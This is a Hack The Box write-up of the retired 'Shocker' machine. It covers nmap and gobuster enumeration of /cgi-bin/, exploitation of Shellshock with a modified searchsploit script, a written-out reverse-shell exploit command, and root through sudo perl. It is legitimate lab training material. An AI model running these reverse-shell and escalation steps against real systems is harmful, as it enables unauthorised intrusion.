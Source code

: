 ```yaml
---
title: Shocker Hackthebox Writeup
date: 2020-12-25 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,cgi-bin,shellshock,gobuster,apache shellshock]     # TAG names should always be lowercase
image: /assets/img/shocker-hackthebox/shocker-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Lame:~$


Column | Details
------------ | -------------
Name | Shocker
IP | 10.10.10.56
Points | 20
Os | Linux
Difficult | Easy
Creator | [mrb3n](https://www.hackthebox.eu/profile/2984)
Out on | 30th September 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Using `gobuster` on port 80, for `directory search`, we got `/cgi-bin/` as one of the *Forbidden* directories.
* Using `gobuster` on `/cgi-bin/`, we got `user.sh`
* After searching on internet, we got `shellshock` exploit, which gave us `User Shell`.
* Used `pearl` for escalating privileges to become `Root`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/shocker-hackthebox/nmap-port-80-1.png)

___
![](/assets/img/shocker-hackthebox/nmap-port-2222-1.png)

Basically `2 Ports` are open i.e. `80,2222`, Let's access `port 80` it first.

___
![](/assets/img/shocker-hackthebox/port-80-2.png)

Using `gobuster` for directory search, which gave us with `/cgi-bin/` as a directory but it's *Forbidden*.

**Command**: *gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.56/ -t 100*

___
![](/assets/img/shocker-hackthebox/gobuster-command-3.png)

Using `gobuster` on **http://10.10.10.56/cgi-bin/** to search for further files.

**Command**: *gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 100 -x html,php,sh*

where **-x** : *For extensions like html,php,sh etc.*

___
![](/assets/img/shocker-hackthebox/cgi-bin-gobuster-7.png)

and we got `/user.sh` as a file , accessing **http://10.10.10.56/cgi-bin/user.sh**

___
![](/assets/img/shocker-hackthebox/user-sh-page-8.png)

After that I googled about `Apache 2.4.18 cgi bin`, which showed me something related to **Shellshock Remote code injection**.

___
![](/assets/img/shocker-hackthebox/google-cgi-bin-5.png)

I check `searchsploit` for that and found this:

___
![](/assets/img/shocker-hackthebox/searchsploit-result-6.png)

Now making some changes in the python exploit by adding `/cgi-bin/user.sh` as one the directories/pages.

___
![](/assets/img/shocker-hackthebox/changing-exploit-9.png)

Running the exploit gave us the `User Shell`.

**Exploit Command**: *python exploit.py payload=reverse rhost=10.10.10.56 lhost=10.10.X.X lport 4444*

___
![](/assets/img/shocker-hackthebox/got-shell-10.png) 

For `Privilege Escalation`, I used the command `sudo -l` to check what permissions do we have.

___
![](/assets/img/shocker-hackthebox/sudo-l-privesc-12.png)

We can run `pearl` as administrator. Let's refer to [GTFObins](https://gtfobins.github.io/gtfobins/perl/#sudo) and search for peal.

___
![](/assets/img/shocker-hackthebox/sudo-perl-13.png)

Running the above mentioned command, we got `Root`.

___
![](/assets/img/shocker-hackthebox/got-root-14.png)